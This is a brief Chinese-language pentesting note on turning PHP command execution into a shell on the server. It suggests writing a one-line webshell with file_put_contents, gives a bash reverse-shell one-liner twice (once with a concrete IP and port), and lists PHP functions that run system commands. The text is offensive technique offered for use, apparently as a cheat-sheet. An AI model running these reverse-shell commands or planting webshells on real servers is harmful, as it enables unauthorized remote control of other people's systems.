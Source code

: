 ### php命令执行getshell

前提条件：获得php命令执行

方法1:file_put_contents(filename,content)向当前目录写入一句话

方法2：反弹shell，构建一句话

反弹shell命令如下：

```shell
bash -i >& /dev/tcp/ip/port 0>&1
```

php系统命令函数：

```
system()
passthru()
exec()
shell_exec()
popen()
proc_open()
pcntl_exec()
```

bash -i >& /dev/tcp/10.10.10.129/6666 0>&1